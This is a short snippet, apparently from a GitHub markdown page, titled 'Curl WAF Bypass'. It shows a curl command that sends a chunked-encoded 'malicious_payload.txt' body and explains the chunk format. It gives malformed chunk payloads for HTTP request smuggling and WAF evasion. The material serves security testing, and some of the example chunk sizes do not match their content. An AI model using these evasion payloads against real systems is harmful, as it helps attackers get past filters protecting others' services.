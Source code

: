 		Curl WAF Bypass

Some WAFs fail to inspect **chunked transfer encoding**:

```bash
curl -X POST "https://target.com/api" \ -H "Transfer-Encoding: chunked" \ --data-binary @malicious_payload.txt
```

inside **payload.txt:**

```http
4
data
3
123
0

```

- `4` — the length (in hex) of the first chunk (`data`)
    
- `data` — the actual data
    
- `3` — the length (in hex) of the second chunk (`123`)
    
- `123` — another chunk
    
- `0` — zero-length chunk signals the end of the message
    

In total, this sends a payload body of `data123`.

### 🔥 Why do this?

When testing:

- **HTTP request smuggling**
    
- **WAF evasion**
    
- or misconfigured reverse proxies
    

...the goal might be to break parsing logic by crafting weird or malformed chunk sizes, sneaking in an extra request, or padding with invisible characters.

Here’s a more "twisted" payload that might simulate this:

```http
5
POST 
7
 /api\n
0

```


Or more precisely, you might craft a chunked body to _mimic_ an embedded HTTP request like this

```
0d
POST /data HTTP/1.1
0
```
